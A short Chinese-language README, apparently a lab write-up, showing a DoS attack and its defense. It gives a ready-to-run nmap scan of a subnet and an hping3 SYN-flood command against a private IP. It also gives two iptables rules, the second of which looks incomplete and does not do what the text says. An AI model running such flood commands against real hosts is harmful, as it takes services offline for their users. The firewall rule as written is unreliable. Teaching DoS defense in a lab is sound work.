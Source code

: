 # DoS攻擊與防護
##攻擊端
攻擊端先利用nmap掃描啟動中的ip和正在啟用的端口 
```
nmap -O -p 80 192.168.0.* 
```
<font color=gray size=2>掃描192.168.0.0到192.168.0.255之間port為80的主機</font>

例如找到192.168.0.121有開放80端口後開始使用hping3攻擊開始攻擊 
```
hping3 --flood -S -p 80 -d 120 -v 192.168.0.121 
```
<font color=gray size=2>利用泛洪方式攻擊192.168.0.121的80端口發送120BYTES大小的syn封包</font>
  
## 防護端
###Linux的iptables
```
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 10 -j REJECT  
iptables -A INPUT -p tcp --dport 80 -m recent --name BAD_HTTP_ACCESS --update --second 6
```
<font color=gray size=2>上述兩個指令表達是在6秒內相同IP請求連線次數超過10個即拒絕回應</font>

## 影片說明
本次有實際防範影片，駭客用上述hping3的攻擊指令導致Http Server無法服務，但伺服器有在防火牆上做上述過濾規則，導致只有駭客IP被回絕的成效。   
成果影片：[DoS防護](https://www.youtube.com/watch?v=Nv8pB9XkcDQ)